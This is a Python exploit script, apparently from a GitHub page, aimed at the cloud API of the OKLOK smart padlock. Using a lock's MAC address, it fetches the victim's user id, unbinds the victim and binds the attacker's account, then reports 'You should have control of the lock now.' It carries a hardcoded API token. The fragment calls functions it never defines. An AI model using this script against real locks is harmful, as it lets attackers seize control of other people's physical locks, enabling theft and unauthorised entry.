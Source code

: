 ```python

def unbind(h):
    url = "https://app.oklok.com.cn/oklock/lock/unbind"
    data = {
        "lockId": lock['lockid'],
        "userId": lock['userid']
    }
    resp = requests.request("POST", url, json=data, headers=h)


def bind(attacker_id, h):
    url = "https://app.oklok.com.cn/oklock/lock/bind"
    data = {
        "name": lock['name'],
        "userId": attacker_id,
        "mac": lock['mac']
    }
    resp = requests.request("POST", url, json=data, headers=h)


if __name__ == "__main__":
    # user id, and device mac 
    try:
        attacker_id = sys.argv[1]
        mac = sys.argv[2]
    except IndexError:
        print("error: missing arguments")
        print("usage: " + sys.argv[0] + ' [id] [mac]')
        sys.exit()

    header = {
        'User-Agent': 'nokelockTool/1.4.8(Android 7.1.2 ; Xiaomi/Redmi 4)',
        'clientType': 'Android',
        'token': 'e717aabb210e48169ab28247ed6c65e9',
        'language': 'GB',
        'appVersion': '1.4.8',
        'Content-Type': 'application/json;charset=UTF-8',
        'Host': 'api.oklock.com.cn',
        'Connection': 'close',
        'Accept-Encoding': 'gzip, deflate',
    }

    lock['mac'] = mac
    print("[*] Fetching lock data...")
    query_device(header)
    print("[*] Fetching victim's user id...")
    get_device_info(header)
    print("[*] Unbinding victim from the lock...")
    unbind(header)
    print("[*] Binding your user to the lock...")
    bind(attacker_id, header)
    print("[*] Done! You should have control of the lock now.")
```
